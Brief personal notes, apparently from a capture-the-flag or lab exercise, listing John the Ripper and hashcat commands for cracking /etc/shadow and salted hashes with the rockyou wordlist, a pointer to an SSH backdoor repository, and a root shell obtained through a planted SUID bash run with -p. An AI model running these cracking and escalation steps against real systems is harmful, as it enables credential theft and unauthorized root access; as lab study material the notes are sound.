always go for tcp stream

cracking hashes in /etc/shadow
john -wordlist=/rockyou.txt hashfile
john hashfile --show -> to see the already cracked hashes

remove saved john hashes
sudo locate john.pot
rm location/john.pot
run the john again

analyze this later for more backdoor info
git clone https://github.com/NinjaJc01/ssh-backdoor
look into binary files in linux

sudo apt install hashcat
hashcat -m 1710 "hashvalue:salt" /opt/rockyou.txt

john
sudo john --format=dynamic_82 -wordlist=/home/kali/Desktop/wordlist/rockyou.txt hash.txt

hash.txt
username:hashvalue$saltvalue

__log into with james and cracked passwd__
./.suid_bash -p